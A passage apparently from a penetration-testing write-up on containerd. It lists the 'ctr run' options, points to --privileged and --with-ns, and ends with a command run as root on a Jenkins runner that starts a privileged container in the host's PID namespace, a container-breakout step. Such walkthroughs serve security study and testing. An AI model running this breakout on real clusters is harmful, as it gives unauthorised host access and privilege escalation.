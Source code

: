 ```bash
   --config value, -c value                path to the runtime-specific spec config file
   --cwd value                             specify the working directory of the process
   --env value                             specify additional container environment variables (e.g. FOO=bar)
   --env-file value                        specify additional container environment variables in a file(e.g. FOO=bar, one per line)
   --label value                           specify additional labels (e.g. foo=bar)
   --annotation value                      specify additional OCI annotations (e.g. foo=bar)
   --mount value                           specify additional container mount (e.g. type=bind,src=/tmp,dst=/host,options=rbind:ro)
   --net-host                              enable host networking for the container
   --privileged                            run privileged container
   --read-only                             set the containers filesystem as readonly
   --runtime value                         runtime name (default: "io.containerd.runc.v2")
   --runtime-config-path value             optional runtime config path
   --tty, -t                               allocate a TTY for the container
   --with-ns value                         specify existing Linux namespaces to join at container runtime (format '<nstype>:<path>')
   --pid-file value                        file path to write the task's pid
   --gpus value                            add gpus to the container
   --allow-new-privs                       turn off OCI spec's NoNewPrivileges feature flag
   --memory-limit value                    memory limit (in bytes) for the container (default: 0)
   --device value                          file path to a device to add to the container; or a path to a directory tree of devices to add to the container
   --cap-add value                         add Linux capabilities (Set capabilities with 'CAP_' prefix)
   --cap-drop value                        drop Linux capabilities (Set capabilities with 'CAP_' prefix)
   --seccomp                               enable the default seccomp profile
   --seccomp-profile value                 file path to custom seccomp profile. seccomp must be set to true, before using seccomp-profile
   --apparmor-default-profile value        enable AppArmor with the default profile with the specified name, e.g. "cri-containerd.apparmor.d"
   --apparmor-profile value                enable AppArmor with an existing custom profile
   --rdt-class value                       name of the RDT class to associate the container with. Specifies a Class of Service (CLOS) for cache and memory bandwidth management.
   --rootfs                                use custom rootfs that is not managed by containerd snapshotter
   --no-pivot                              disable use of pivot-root (linux only)
   --cpu-quota value                       Limit CPU CFS quota (default: -1)
   --cpu-period value                      Limit CPU CFS period (default: 0)
   --rootfs-propagation value              set the propagation of the container rootfs
```

Once again there are a lot of options but the ones we are interested in are `--privileged` and `--with-ns`. Let's try running the container.

```bash
root@jenk-ng-runner-s82n6-7dc596dcd4-nlfrq:/var/run/containerd# ctr run -d --rm --privileged --with-ns pid:/proc/1/ns/pid registry.hub.docker.com/library/ubuntu:latest containerd-breakout
```
